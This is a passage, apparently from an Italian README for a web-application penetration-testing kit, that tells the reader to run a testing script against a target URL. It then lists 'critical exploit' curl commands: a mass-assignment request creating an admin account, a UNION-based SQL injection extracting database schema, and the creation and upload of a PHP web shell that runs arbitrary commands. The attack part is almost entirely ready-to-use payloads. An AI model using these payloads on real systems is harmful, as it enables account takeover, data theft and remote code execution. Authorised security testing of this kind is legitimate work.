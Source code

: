 ### 2. Script Python Avanzato
```bash
# Installa dipendenze
pip3 install requests

# Esegui test completi
python3 advanced_security_test.py https://your-target-app.com
```

### 3. Payload JSON Strutturato
Il file `security_testing_payload.json` contiene:
- Payloads strutturati per ogni vulnerabilità
- Esempi di richieste cURL
- Catene di attacchi avanzate
- Raccomandazioni per la remediation

## 🔥 Esempi di Exploit Critici

### Mass Assignment - Creazione Admin
```bash
curl -X POST https://target.com/api/customers \
  -H "Content-Type: application/json" \
  -d '{
    "name": "Hacker",
    "email": "hacker@evil.com",
    "phone": "+1234567890",
    "role": "admin",
    "is_admin": true,
    "team_id": 999
  }'
```

### SQL Injection - Estrazione Database
```bash
curl -X GET "https://target.com/api/faqs/test-team?query=' UNION SELECT table_name,column_name FROM information_schema.columns WHERE table_schema=database() -- "
```

### File Upload Malicious
```bash
# Crea file PHP malicious
echo '<?php system($_GET["cmd"]); ?>' > malicious.php

# Upload del file
curl -X POST https://target.com/api/upload-file \
  -F "file=@malicious.php" \
  -F "message=test"
```

## 🎯 Test Specifici per Funzionalità
